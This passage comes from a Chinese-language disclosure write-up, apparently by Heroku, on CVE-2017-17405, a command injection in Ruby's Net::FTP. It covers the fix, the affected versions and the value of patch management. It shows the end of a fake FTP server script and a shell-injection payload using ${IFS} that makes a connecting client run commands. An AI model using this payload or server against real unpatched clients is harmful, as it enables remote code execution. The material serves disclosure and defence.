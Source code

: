 ```
   client.puts "150 Here comes the directory listing.rn"
   wait = false

   client.puts "226 Directory send OK.rn"
   r = client.gets
   puts r
   client.puts "221 goodbyern"
   client.close
 end
end
```

当我们使用`pclient.puts "|echo$`{`IFS`}`$(id)$`{`IFS`}`&gt;pangrn"`来提供`filelist`，将会使`echo $(id) &gt; pang`连接客户端上运行。如果利用成功，我们会看到在客户端上创建的新文件，其中包含`id`命令的输出。虽然不是必须的，我们将空格“编码”为`$`{`IFS`}``,这是一个称为内部字段分隔符的特殊shell变量。这在空格导致payload出现问题的情况下非常有效。

[![](https://p2.ssl.qhimg.com/t018a70b24d5bb55681.png)](https://p2.ssl.qhimg.com/t018a70b24d5bb55681.png)

## 报告和修复

我们在发现问题之后不久就向Ruby团队报告了这个漏洞。反应非常好，漏洞在几个小时内得到修复。

Ruby团队只是用`File.open`函数替换了`open`函数，而`File.open`函数不容易受到命令注入的影响。

该修复包含在Ruby [2.4.3版](https://www.ruby-lang.org/en/news/2017/12/14/ruby-2-4-3-released/)的稳定版本中。漏洞也被分配了[CVE-2017-17405](https://www.ruby-lang.org/en/news/2017/12/14/net-ftp-command-injection-cve-2017-17405/)的CVE编号。

以下版本的Ruby都受到此漏洞的影响：
- Ruby 2.2系列：2.2.8及更早版本
- Ruby 2.3系列：2.3.5及更早版本
- Ruby 2.4系列：2.4.2及更早版本
- Ruby 2.5系列：2.5.0-preview1
- 在主干修订版r61242之前
## 结论

系统卫生（短暂性，不变性，修补等）是安全系统的基础。

围绕被修补的漏洞进行安全和开放的交流可以提高对我们对整个计算生态系统的类似弱点的认识。您可以认为这是我们对各类漏洞的免疫力进化，从而保护我们的基础架构。

在Heroku，我们密切关注安全研究和漏洞披露。我们对漏洞进行安全讨论中的信念和投资有助于确保我们的软件保持最新，并保护我们的客户。

补丁管理是安全生命周期的组成部分，不能仅仅是应用补丁的静态过程。查看并理解修补漏洞的原理可以帮助识别受影响软件中的新漏洞（甚至在完全不同的软件包）。我们密切关注安全研究和漏洞披露，确保我们的软件保持最新状态，并保护我们的客户。
